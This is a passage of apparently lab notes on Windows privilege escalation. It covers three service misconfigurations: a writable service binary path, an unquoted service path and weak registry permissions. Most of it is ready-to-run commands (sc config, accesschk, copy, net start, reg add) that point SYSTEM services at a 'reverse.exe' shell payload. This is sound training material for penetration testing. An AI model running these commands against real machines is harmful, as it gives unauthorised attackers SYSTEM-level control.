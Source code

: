 ```
sc config daclsvc binpath= "\"C:\PrivEsc\reverse.exe\""
```

## unquoted service path

---

Query `unquotedsvc` service:

```
sc qc unquotedsvc
```

Check if it runs with SYSTEM privileges (SERVICE_START_NAME), also check if BINARY_PATH_NAME is unquoted and contains spaces

Check permissions for Unquoted Path Service:

```
C:\PrivEsc\accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\" 
```

BUILTIN\Users group is allowed to write to the directory.

Copy exploit:

```
copy C:\PrivEsc\reverse.exe "C:\Program Files\Unquoted Path Service\Common.exe"
```

https://medium.com/@SumitVerma101/windows-privilege-escalation-part-1-unquoted-service-path-c7a011a8d8ae

Run service:

```
net start unquotedsvc
```

## weak registry perms

---

```
sc qc regsvc
```

```
C:\PrivEsc\accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\regsvc
```

Check if registry service is writable by INTERACTIVE group (all logged-on users)

Overwrite ImagePath registry key to reverse.exe:

```
reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\reverse.exe /f
```
